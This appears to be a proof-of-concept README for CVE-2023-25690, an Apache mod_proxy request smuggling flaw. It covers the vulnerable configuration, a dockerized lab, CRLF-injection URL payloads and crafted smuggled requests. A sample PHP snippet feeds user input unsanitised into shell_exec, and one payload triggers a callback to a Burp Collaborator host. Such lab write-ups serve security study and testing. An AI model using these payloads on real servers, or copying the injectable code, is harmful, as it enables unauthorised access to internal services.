



# CVE 2023 25690 - Proof of Concept
**Published: 7 March 2023**
| Base score | Confidentiality | Integrity impact	 | Availability impact |
| -------- | -------- | -------- | -------- |
| 9.8 | High | High | High |

## Table of contents
* [Advisory Description](#advisory-description)
* [Vulnerable Apache Configuration Breakdown](#vulnerable-apache-configuration-breakdown)
  * [Data Flow](#data-flow)
* [Lab Setup](#lab-setup)
* [HTTP Request Splitting causing HTTP Request Smuggling on backend service](#http-request-splitting-causing-http-request-smuggling-on-backend-service)
  * [Identifying the CRLF Injection](#identifying-the-crlf-injection)
  * [Internal HTTP Request Smuggling via Header Injection](#internal-http-request-smuggling-via-header-injection)
* [Impact](#impact)


### Advisory Description
Some **mod_proxy configurations** on Apache HTTP Server versions **2.4.0** through **2.4.55** allow a **HTTP Request Smuggling attack**. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using **variable substitution**. For example, something like: 
```bash 
RewriteEngine on 
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] 
ProxyPassReverse /here/ http://example.com:8080/
```
Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning. Users are recommended to update to at least version 2.4.56 of Apache HTTP Server.

[https://ubuntu.com/security/CVE-2023-25690](https://ubuntu.com/security/CVE-2023-25690) <br>
[https://security.snyk.io/vuln/SNYK-UBUNTU2210-APACHE2-3355688](https://security.snyk.io/vuln/SNYK-UBUNTU2210-APACHE2-3355688)

---

### Vulnerable Apache Configuration Breakdown
With `RewriteEngine on` included in apache configuration enables the URL rewriting engine. URL rewriting is a technique that allows web servers to dynamically change the URLs requested by a client's browser to a different URL before serving the content. <br>
For example let's say that we have the following URL structure for a online e-shop:
```bash
https://example-shop.com/categories/1
```
Assuming the following RewriteRule directive in an Apache configuration file:
```bash
RewriteRule "^/categories/(.*)" "http://example-shop.com:8080/categories?id=$1"; [P] 
```
When a user requests the URL `https://example-shop.com/categories/1`, the RewriteRule will match the URL and capture the value `1` using the regular expression `^/categories/(.*)`. The rule then rewrites the URL to `http://example-shop.com:8080/categories?id=1` by appending the captured value to the rewritten URL as a query parameter id.

<br>

Since the `[P]` flag exists in the rule, Apache will treat the rewritten URL as a proxy request and forward it to the target server at `http://example-shop.com:8080/categories` with the query parameter id set to `1`. The target server will then process the request and send the response back to Apache, which will forward it to the client.


In summary, the RewriteRule directive with the `[P]` flag is used to rewrite URLs and proxy them to a different server. In this case, the rule matches URLs starting with `/categories/` and appends the captured value as a query parameter id to the rewritten URL. Apache then forwards the request to the target server, which processes the request and returns the response.

Finally regarding `ProxyPassReverse /categories/ http://example-shop.com:8080/` this line simply replaces the backend server's domain and path with the proxy server's domain and path, so that the client is able to correctly follow links and access content from the proxied backend server as if it were being served directly from the proxy server.


### Data Flow



---

## Lab Setup
To simulate the vulnerabity in Apache we will use the **httpd version 2.4.55**. Additionally, the entire lab will be dockerized for improved ease of setup, configuration, and reproducibility.
<br><br>
The lab file structure will be the following:

```bash
lab/
├── backend
│   ├── Dockerfile
│   └── src
│       ├── categories.php
│       └── index.php
├── docker-compose.yml
└── frontend
    ├── Dockerfile
    └── httpd.conf
```

The final **httpd.conf** configuration is structed like below:
```bash
ErrorLog "/usr/local/apache2/logs/error.log"
CustomLog "/usr/local/apache2/logs/access.log" common

# Load necessary modules 
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    RewriteEngine on
    RewriteRule "^/categories/(.*)" "http://192.168.10.100:8080/categories.php?id=$1" [P]
    ProxyPassReverse "/categories/" "http://192.168.10.100:8080/"

</VirtualHost>
```
Use the `docker-compose.exe up --build` command to start the lab.


* **mod_rewrite** documentation: [https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html) <br>
* **mod_proxy** documentation: [https://httpd.apache.org/docs/2.4/mod/mod_proxy.html](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html)

## HTTP Request Splitting causing HTTP Request Smuggling on backend service
In this section, I will explain how a CRLF injection can lead to internal HTTP Request Smuggling, enabling an attacker to gain unauthorized access to internal resources that would otherwise be inaccessible.

### Identifying the CRLF Injection
Based on the advisory description the httpd <=2.4.55 is vulnerable to HTTP Response Splitting also known as CRLF Injection. <br>
The CRLF Injection occurs when:
* Data enters a web application through an untrusted source, most frequently an HTTP request
* The data is included in an HTTP response header sent to a web user without being validated for malicious characters. 

which in our case can be confirmed passing the following CRLF prefix in URL:
```
 HTTP/1.1\r\nFoo: baarr\r\n\r\n
%20HTTP/1.1%0d%0aFoo:%20baarr
```
By appending the above prefix to the URL, the resulting final request will be as follows:
```bash
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```
Following the request, the server will process the data and return a 200 response code indicating vulnebility to CRLF Injection.
```bash
HTTP/1.1 200 OK
Date: Mon, 22 May 2023 02:05:28 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Length: 21
Content-Type: text/html; charset=UTF-8

You category ID is: 1
```

More information regarding HTTTP Request Splitting can be found here, [https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)


### Internal HTTP Request Smuggling via Header Injection
Using the header injection we will perform the internal HTTP Request Smuggling.<br>
Lets begin with the following prefix:
```bash
 HTTP/1.1\r\nHost: localhost\r\n\r\nGET /SMUGGLED
%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED
```
and the following request
```bash
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```
Applying the rewrite rule, the request undergoes a transformation into the following format:
```bash
GET /categories.php?id=1 HTTP/1.1
Host: localhost

GET /SMUGGLED HTTP/1.1
Host: backend
```
where the encoded URL is decoded into valid HTTP syntax causing the backend to treat the decoded data as second request.

<br>
Suppose that our internal application has the following secret code:
```php
#Internal secret functionality
if(isset($_GET['secret'])){
    $secret = $_GET['secret'];

    shell_exec('nslookup ' . $secret);
}
```
with the following prefix we are able to send the second request to hidden functionallity:
```bash
 HTTP/1.1\r\nHost: localhost\r\n\r\nGET /categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
```
```bash
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dq0r2dkj0pyl5o0c5ydcptklbi2otci.burpcollaborator.net HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```
and retrieve the request on burp collaborator:


Patches:
* [https://github.com/apache/httpd/commit/8789f6bb926fa4c33b4231a8444340515c82bdff](https://github.com/apache/httpd/commit/8789f6bb926fa4c33b4231a8444340515c82bdff)
* [https://github.com/apache/httpd/commit/8b93a6512f14f5f68887ddfe677e91233ed79fb0](https://github.com/apache/httpd/commit/8b93a6512f14f5f68887ddfe677e91233ed79fb0)


## Impact
The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.
